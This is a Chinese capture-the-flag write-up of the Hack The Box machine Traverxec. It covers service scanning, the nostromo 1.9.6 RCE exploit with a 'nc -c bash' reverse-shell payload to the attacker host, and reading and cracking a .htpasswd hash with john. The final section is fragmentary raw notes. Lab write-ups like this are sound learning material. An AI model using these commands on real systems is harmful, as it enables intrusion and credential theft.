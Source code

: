# 免责声明
>本文渗透的主机经过合法授权。本文使用的工具和方法仅限学习交流使用，请不要将文中使用的工具和渗透思路用于任何非法用途，对此产生的一切后果，本人不承担任何责任，也不对造成的任何误用或损害负责。


# 服务发现
```
┌──(root💀kali)-[~/htb/Traverxec]
└─# nmap -sV -Pn 10.10.10.165              
Host discovery disabled (-Pn). All addresses will be marked 'up' and scan times will be slower.
Starting Nmap 7.91 ( https://nmap.org ) at 2021-12-27 10:01 EST
Nmap scan report for 10.10.10.165
Host is up (0.63s latency).
Not shown: 998 filtered ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.9p1 Debian 10+deb10u1 (protocol 2.0)
80/tcp open  http    nostromo 1.9.6
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 80.28 seconds

```

看到网络服务器是nostromo，搜索这个服务器的漏洞情况
```
┌──(root💀kali)-[~/htb/Traverxec]
└─# searchsploit nostromo 1.9.6                                                                                                                                                                                                                        130 ⨯
--------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------- ---------------------------------
 Exploit Title                                                                                                                                                                                                             |  Path
--------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------- ---------------------------------
nostromo 1.9.6 - Remote Code Execution                                                                                                                                                                                     | multiple/remote/47837.py
--------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------- ---------------------------------
Shellcodes: No Results

```

存在一个RCE

尝试执行：
```
┌──(root💀kali)-[~/htb/Traverxec]
└─# python 47837.py 10.10.10.165 80 id                                                                                       


                                        _____-2019-16278
        _____  _______    ______   _____\    \   
   _____\    \_\      |  |      | /    / |    |  
  /     /|     ||     /  /     /|/    /  /___/|  
 /     / /____/||\    \  \    |/|    |__ |___|/  
|     | |____|/ \ \    \ |    | |       \        
|     |  _____   \|     \|    | |     __/ __     
|\     \|\    \   |\         /| |\    \  /  \    
| \_____\|    |   | \_______/ | | \____\/    |   
| |     /____/|    \ |     | /  | |    |____/|   
 \|_____|    ||     \|_____|/    \|____|   | |   
        |____|/                        |___|/    




HTTP/1.1 200 OK
Date: Mon, 27 Dec 2021 15:20:04 GMT
Server: nostromo 1.9.6
Connection: close


uid=33(www-data) gid=33(www-data) groups=33(www-data)

```

成功执行```id```命令，证实rce存在

我们执行以下payload

> python 47837.py 10.10.10.165 80 'nc -c bash 10.10.14.3 4242'


成功拿到立足点：
```
┌──(root💀kali)-[~/htb/Traverxec]
└─# nc -lnvp 4242
listening on [any] 4242 ...
connect to [10.10.14.3] from (UNKNOWN) [10.10.10.165] 46046
id
uid=33(www-data) gid=33(www-data) groups=33(www-data)

```


在 ```/var/nostromo/conf/.htpasswd```找到一个用户凭证
```
www-data@traverxec:/tmp$ cat /var/nostromo/conf/.htpasswd
cat /var/nostromo/conf/.htpasswd
david:$1$e7NfNpNi$A6nCwOTqrNR2oDuIKirRZ/

```

保存到本地用john破解
```
hn --wordlist=/usr/share/wordlists/rockyou.txt hash.txt 
Warning: detected hash type "md5crypt", but the string is also recognized as "md5crypt-long"
Use the "--format=md5crypt-long" option to force loading these as that type instead
Using default input encoding: UTF-8
Loaded 1 password hash (md5crypt, crypt(3) $1$ (and variants) [MD5 128/128 AVX 4x3])
Will run 4 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
Nowonly4me       (david)
1g 0:00:01:04 DONE (2021-12-27 11:11) 0.01548g/s 163775p/s 163775c/s 163775C/s Noyoudo..Novaem
Use the "--show" option to display all of the cracked passwords reliably
Session completed

```

可是用这个密码不能切换到david，也不能ssh登录。



passwd file: /etc/pam.d/passwd                                                                                                                                       
passwd file: /etc/passwd
passwd file: /usr/share/bash-completion/completions/passwd
passwd file: /usr/share/lintian/overrides/passwd
passwd file: /var/nostromo/conf/.htpasswd


The password hash is from the {SSHA} to 'structural'                                                                                                                 
drwxr-xr-x 2 root root 4096 Oct 25  2019 /etc/ldap

ssh -v david@10.10.10.165 id

htpasswd /var/nostromo/conf/.htpasswd david